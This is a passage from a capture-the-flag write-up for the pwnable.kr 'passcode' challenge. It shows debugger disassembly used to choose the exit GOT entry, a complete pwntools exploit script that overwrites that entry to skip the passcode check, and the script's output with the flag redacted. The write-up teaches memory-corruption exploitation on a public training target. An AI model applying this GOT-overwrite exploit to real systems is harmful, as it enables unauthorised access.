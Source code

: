 Let's try `printf`:
```shell
....
call   0x8048420 <printf@plt>
....

pwndbg> disassemble 0x8048420
Dump of assembler code for function printf@plt:
   0x08048420 <+0>:     jmp    DWORD PTR ds:0x804a000
   0x08048426 <+6>:     push   0x0
   0x0804842b <+11>:    jmp    0x8048410
End of assembler dump.
```
It's at `0x804a000`, we can't use it either because of the `0x00` byte.

At last, let's try `exit`:
```shell
....
call   0x8048480 <exit@plt>
....
pwndbg> disassemble 0x8048480
Dump of assembler code for function exit@plt:
   0x08048480 <+0>:     jmp    DWORD PTR ds:0x804a018
   0x08048486 <+6>:     push   0x30
   0x0804848b <+11>:    jmp    0x8048410
End of assembler dump.
```
It's at `0x804a018`, and we can use it!

Now let's choose the address we want to write in the GOT entry. We'll use `0x080485d7`, which is the address of the `mov    DWORD PTR [esp],0x80487a5 # "Login OK!"` instruction.

Let's write our exploit:
```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'

shell = ssh('passcode', 'pwnable.kr', password='guest', port=2222)
p = shell.process('./passcode')

p.recvuntil("enter you name : ")
payload = b'L' * 96 + p32(0x804a018) # 96 bytes of 'L' + address of GOT entry of exit
p.sendline(payload)
p.recvuntil("enter passcode1 : ")
p.sendline(f"{0x080485d7}") # address of "Login OK!" instruction
p.recvuntil("enter passcode2 : ")
p.sendline(b"l")

p.interactive()
```
Run it:
```shell
$ ./exploit.py 
[+] Connecting to pwnable.kr on port 2222: Done
....
[*] Switching to interactive mode
checking...
Login Failed!
Login OK!
[ ...FLAG... ]
Now I can safely trust you that you have credential :)
[*] Got EOF while reading in interactive
```